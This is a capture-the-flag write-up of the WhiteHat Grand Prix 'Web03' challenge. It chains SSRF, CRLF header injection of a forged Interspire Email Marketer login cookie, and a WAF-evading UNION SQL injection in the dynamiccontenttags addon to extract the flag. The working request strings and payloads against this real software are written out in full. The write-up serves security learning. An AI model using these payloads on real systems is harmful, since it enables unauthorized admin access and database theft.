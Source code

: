 Web03  
Description: None  
web03.grandprix.whitehatvn.com:1337  
Solves: 10  
Points: 410  
Team: OpenToAll  

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are  
used to load remote web pages in the style of:

Host: 202.182.120.169:1337  
Urlpath: index.php  
Request = http://202.182.120.169:1337/index.php

![initialchallenge](screenshots/initialchallenge.png)

In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,  
I did a port scan of the localhost network. Using Burp Intruder I checked every  
port with requests:

Host: 127.0.0.0:{var}  
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.

![Port8088](screenshots/port8088.png)

From here on, I used Burp  
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly  
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML

![htmlrender](screenshots/htmlrender.png)

At the time of writing this, I'm noticing that the output looks a LOT better if  
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,  
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!  

![admin](screenshots/adminaccess_1.png)
![buxuwa](screenshots/buxuwa.png)

I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,  
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.

![waf](screenshots/waf.png)

However, URL encoding any of these characters worked perfectly.  
`UNION` becomes `%55NION` (%55 == 'U')  
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)

![sqli](screenshots/sqli.png)
![rendered_sqli](screenshots/rendered_sqli.png)


From here it's very standard MySQL injection. Using the payloads here:  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my  
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag_wh](screenshots/flag_wh.png)
![flag_wh_rendered](screenshots/flag_wh_rendered.png)

Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag](screenshots/flag.png)
![flag](screenshots/flag_rendered.png)

`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not  
the intended solution. Apparently there's some other method to exploit it,  
but I have no idea what it is.
